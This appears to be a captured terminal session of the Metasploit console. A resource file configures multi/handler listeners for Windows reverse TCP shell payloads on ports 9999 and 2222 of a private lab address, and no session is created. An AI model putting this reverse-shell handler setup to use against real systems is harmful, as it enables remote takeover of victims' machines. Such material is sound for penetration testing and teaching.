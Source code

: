 ```
                                                                                                                                                
           wake up, Neo...                                                                                                                      
        the matrix has you                                                                                                                      
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View all productivity tips with the 
tips command

[*] Processing config.rc for ERB directives.
resource (config.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (config.rc)> set PAYLOAD windows/x64/shell/reverse_tcp
PAYLOAD => windows/x64/shell/reverse_tcp
resource (config.rc)> set LHOST eth0
LHOST => eth0
resource (config.rc)> set LPORT 9999
LPORT => 9999
resource (config.rc)> set ExitOnSession false
ExitOnSession => false
resource (config.rc)> set EXITFUNC thread
EXITFUNC => thread
resource (config.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
resource (config.rc)> set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
resource (config.rc)> set LPORT 2222
LPORT => 2222
resource (config.rc)> exploit -j
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 192.168.179.131:9999 
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.179.131:2222 
msf6 exploit(multi/handler) >
```